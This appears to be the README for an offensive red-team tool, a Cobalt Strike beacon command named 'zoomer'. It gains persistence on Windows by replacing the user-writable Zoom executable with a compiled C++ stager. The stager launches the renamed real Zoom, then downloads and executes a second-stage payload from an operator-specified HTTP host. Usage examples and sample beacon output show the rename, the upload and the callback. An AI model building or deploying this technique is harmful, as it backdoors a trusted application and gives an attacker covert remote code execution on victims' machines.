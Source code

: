 # Zoom Persistence via Symlink Abuse

## Background: 
By default Zoom gets installed under a User's "AppData" directory (C:\Users\{USER}\AppData\Roaming\Zoom\) which is writeable by the user in question. If the Zoom executable located in the the Zoom "bin" directory gets replaced with another. All the Symbolic links (short cuts) will point to the new exe.

## Functionality 
This script generates a C++ stager using the operator provided arguments (Compilation is currently handled by mingw and generates a 32bit exe). The script then renames the zoom executable on the filesystem to a user-defined name and uploads the stager to the zoom directory under the file name "zoom.exe".

This stager will then run the Zoom Executable using its modified name and then pull the stage from the specified address and execute it.

## IMPORTANT 

Modify the builder and compiler variables to point at the correct compiler executable names 

## Example Usage : 

```
beacon> zoomer 127.0.0.1 80 test 
```

## Sample Output :

```
beacon> zoomer 10.0.0.151 80 test ZoomClient.exe
[+] Building Stager to fetch from http://10.0.0.151:80/test
[+] Created New Stager Source C:\Users\S4R1N\source\repos\ZoomPersistence\Source\10.0.0.151_80_test.cpp
[+] Attempting to Compile Stager
[+] Return Code From Compiler: 0
[+] Renaming Zoom Client For S4R1N (c:\users\S4R1N\AppData\Roaming\Zoom\bin\zoom.exe) to ZoomClient.exe (c:\users\S4R1N\AppData\Roaming\Zoom\bin\ZoomClient.exe)
[*] Tasked beacon to run: rename c:\users\S4R1N\AppData\Roaming\Zoom\bin\zoom.exe ZoomClient.exe
[*] Tasked beacon to upload c:\users\S4R1N\AppData\Roaming\Zoom\bin\zoom.exe as c:\users\S4R1N\AppData\Roaming\Zoom\bin\zoom.exe
[+] host called home, sent: 81721 bytes
```
